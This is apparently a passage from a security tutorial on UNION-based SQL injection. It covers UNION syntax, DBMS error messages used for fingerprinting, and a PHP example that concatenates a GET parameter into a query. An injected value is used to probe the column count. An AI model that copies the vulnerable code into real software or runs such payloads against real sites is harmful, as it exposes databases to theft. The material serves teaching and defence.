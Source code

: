 

## 'UNION BASED

The UNION operator allow to combine the result of two or more `SELECT` statements.

Basic syntax:

```sql
SELECT col1, col2, col3, ..., colN FROM table1
UNION
SELECT col1, col2, col3, ..., colN FROM table2
```

returns a table that contains the results obtained by both the `SELECT` statements.

By default it returns only distinct values.

```sql
SELECT col1, col2, col3, ...,colN FROM table1
UNION ALL
SELECT col1, col2, col3, ...,colN FROM table2
```

This will return also duplicate values.

### LIMITATION OF UNION

- The two queries must return the same number of columns
- Data in corresponding columns must be of the same type (or compatible)

If these conditions fails an error will be returned. We can also use the
error returned to identify the DBMS version.

| DBMS | Error with UNION |
| ---- | ---- |
| MSSQL | All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists­ |
| MySQL | The used SELECT statements have a different number of columns |
| Oracle | ORA-01789: query block has incorrect number of result columns |

We can't know the required number of columns by error, so we have to brute force it.

### GET NUMBER OF COLUMNS

Given this PHP code:
```php
  $sql = "SELECT id, title, content FROM pages WHERE id = '" . $_GET['id'] . "'";
  $result = $conn->query($sql);
  while($row = $result->fetch_array()){
    print_r($row);
  }
```

Using `$_GET[id] = "1' UNION ALL SELECT 1 -- -"`, the query produced will be:
```sql
SELECT id, title, content FROM pages WHERE id = '1' UNION ALL SELECT 1 -- -'
```
It will fail because the number of columns is different.

